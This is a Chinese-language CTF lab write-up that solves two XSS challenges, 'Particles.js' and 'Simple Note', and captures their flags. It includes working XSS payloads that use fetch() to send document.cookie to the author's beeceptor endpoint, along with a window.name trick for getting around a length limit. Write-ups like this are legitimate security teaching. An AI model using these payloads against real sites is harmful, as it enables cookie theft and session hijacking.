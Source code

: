 # 2022 交大程式安全 HW10 writeup

## [LAB] Particles.js
題目如下
![](assets/1-1.png)
選單可以選擇不同的主題，會以 config 參數來設定
![](assets/1-2.png)
![](assets/1-3.png)
而 Report 按鈕會把隱藏在頁面中的 \<input> 裡的 url 值當作參數送出 post request
\<input> 裡的 url 值會是頁面本身的網址
![](assets/1-4.png)
然後回傳頁面
![](assets/1-5.png)
另外，也發現頁面中 \<script> 裡的 js 程式碼會跟 config 參數值一樣
![](assets/1-6.png)
![](assets/1-7.png)
config 設成 test
![](assets/1-8.png)
這邊可以對 config 的值動手腳，在後面加上反斜線 escape 掉單引號
```html
?config=test\
```
於是 config.value 的值會變為到下一個單引號前
![](assets/1-9.png)
這時 config.value 的字串值後面會是除法的運算子，必須要讓除法運算成立\
所以在 test 前面加上 ```2;``` 讓字串除以 2 的運算成立，並用分號結束掉
```html
?config=2;test\
```
![](assets/1-10.png)
接下來用 // 註解掉 test 和後面同一行的程式碼，也就是到 ```json => {```
並且要讓換行之後的程式碼成立，所以插入了 ```console.log({x:```
```html
?config=2;console.log({x://test\
```
![](assets/1-12.png)
最後就能在中間插入想要執行的 js，達成了 XSS，例如插入 alert(1)
```html
?config=2;alert(1);console.log({x://test\
```
![](assets/1-11.png)
成功觸發 alert(1)
![](assets/1-13.png)
而這題的 FLAG 放在 admin 的 cookie 裡，要利用 XSS 和 Report 拿到 admin 的 cookie\
由於 Report 時帶的 url 參數值會是頁面本身的網址\
所以只要在網址裡構造一個可以拿到 cookie 的 XSS 後，接著 Report 出去\
server 端就會在 server 上發送該網址的請求，拿到的 cookie 就會是 admin 的\
這時只要將拿到的 cookie 傳到別的地方就行了，例如一個自架的 web server\
所以這邊會使用 beeceptor 之類的服務 (https://beeceptor.com)，它可以用來當作是簡易的 web server 接收請求\
於是建立一個 server 端點 https://yungping.free.beeceptor.com
![](assets/1-14.png)
測試看看，連到 https://yungping.free.beeceptor.com/?FLAG=test
![](assets/1-15.png)
成功收到請求中帶的參數值

構造 XSS，把原本插入的 alert(1) 改為用 fetch 發送請求到自己建立的 server 端點\
以及用 document.cookie 將 admin 的 cookie 帶到參數裡
```html
?config=2;fetch("https://yungping.free.beeceptor.com?"+document.cookie);console.
log({x://test\
```
由於加號在 url 會被吃掉，所以要改成 %2b\
(參考資料：https://www.w3schools.com/tags/ref_urlencode.ASP)
```html
?config=2;fetch("https://yungping.free.beeceptor.com?"%2bdocument.cookie);console.
log({x://test\
```
連到這網址後，然後按 Report 按鈕
![](assets/1-16.png)
成功得出 flag 為 ```FLAG{S1mPl3_X5s}```
## [LAB] Simple Note
題目如下，可輸入 title 和 content 然後提交
![](assets/2-1.png)
![](assets/2-2.png)
而 Report 也是跟上一題一樣，會把當前頁面的網址當作 url 參數的值送出
![](assets/2-8.png)
然後回傳頁面
![](assets/2-9.png)
如果 content 輸入 ```123<script>alert(1)</script>``` 的話，不會被轉換為 HTML tag

![](assets/2-4.png)
觀察 source code 後可以知道因為這邊的 content 是用 innerText\
innerText 會先去做 HTML 的 encode，所以這裡無法 XSS\
不過 title 的話是用 innerHTML，乍看之下會覺得可以插入 XSS 的 payload\
但是實際測試 title 輸入 ```asd<script>alert(1)</script>```，會發現雖然 payload 有填進去，卻不會執行

![](assets/2-5.png)
這個是因為在 spec 裡有明確指出，被插入到 innerHTML 裡的 \<script>\</script> 內容不會被執行\
參考資料：https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML
![](assets/2-6.png)
不過 spec 裡也有說可以用這個來達成 XSS
```html
<img src='x' onerror='alert(1)'>"
```
實際測試，確實有跳 alert(1)\
但接下來想構造 XSS 的時候卻發現 title 有長度限制，除了前端的文字輸入欄有限制之外\
即使用 curl 指令硬送，它也會回傳長度過長的 error\
這時就可利用一個技巧，使用 ```window.name``` 變數\
只要瀏覽器還在同一個視窗裡，```window.name``` 的值就能被帶過去\
於是就可用
```html
<img src=x onerror='eval(window.name)'>
```
並在 F12 裡面將 ```window.name``` 設為 alert(1)，這時重新進入頁面時就會觸發 alert(1)
![](assets/2-7.png)
因此在構造 XSS 的 payload 時，可以利用這方式來繞過輸入字數的限制

開一個自架的 web server，我這邊一樣是用 beeceptor\
按右上啟用規則，並且按 Mocking Rules 修改規則
![](assets/2-10.png)
按紅框的按鈕修改設定
![](assets/2-11.png)
將 Response headers 修改成
```html
{
  "Content-Type": "text/html"
}
```
將 Response body 修改成
```html
<script>
window.name="fetch('https://yungping.free.beeceptor.com?'+document.cookie)"
location="https://note.ctf.zoolab.org/note/3b337e65dbfe479081b38569"
</script>
```
location 就是前面輸入完 title 和 content 按提交後的 note 頁面網址，最後按 Save Rule
![](assets/2-12.png)
改完設定後，當連到 https://yungping.free.beeceptor.com 的時候，它會先設定 ```window.name``` 的值\
這邊跟上一題一樣，FLAG 藏在 admin 的 cookie 裡，因此使用相同的手法\
接著將頁面跳轉到 note 頁面網址\
由於 ```window.name``` 的值會被帶過去，所以此時 ```window.name``` 裡的 fetch 也會執行

最後，只要送出 Report 時的 url 參數值設為 https://yungping.free.beeceptor.com
server 端就會送出 https://yungping.free.beeceptor.com 的請求\
上述的過程就會被執行，就能拿到 admin 的 cookie
```sh
curl https://note.ctf.zoolab.org/report -d 'url=https://yungping.free.beeceptor.com'
```
![](assets/2-14.png)
![](assets/2-13.png)
成功得出 flag 為 ```FLAG{St0r3_y0Ur_p4y104d_s0mW3re}```
## [HW] TodoList
